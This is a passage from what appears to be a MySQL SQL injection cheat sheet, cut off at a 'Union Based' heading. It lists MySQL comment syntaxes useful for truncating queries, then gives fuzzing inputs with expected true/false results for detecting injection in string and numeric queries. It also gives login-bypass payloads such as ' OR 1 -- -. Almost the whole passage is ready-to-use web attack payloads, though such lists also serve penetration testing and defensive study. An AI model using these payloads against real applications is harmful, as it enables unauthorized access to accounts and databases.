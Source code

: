 | Type                       | Description                       |
|----------------------------|-----------------------------------|
| `#`                        | Hash comment                      |
| `/* MYSQL Comment */`      | C-style comment                   |
| `/*! MYSQL Special SQL */` | Special SQL                       |
| `/*!32302 10*/`            | Comment for MYSQL version 3.23.02 |
| `-- -`                     | SQL comment                       |
| `;%00`                     | Nullbyte                          |
| \`                         | Backtick                          |


## MYSQL Testing Injection

* **Strings**: Query like `SELECT * FROM Table WHERE id = 'FUZZ';`
    ```
    '	False
    ''	True
    "	False
    ""	True
    \	False
    \\	True
    ```

* **Numeric**: Query like `SELECT * FROM Table WHERE id = FUZZ;`
    ```ps1
    AND 1	    True
    AND 0	    False
    AND true	True
    AND false	False
    1-false	    Returns 1 if vulnerable
    1-true	    Returns 0 if vulnerable
    1*56	    Returns 56 if vulnerable
    1*56	    Returns 1 if not vulnerable
    ```

* **Login**: Query like `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`
    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+
    ```


## MYSQL Union Based
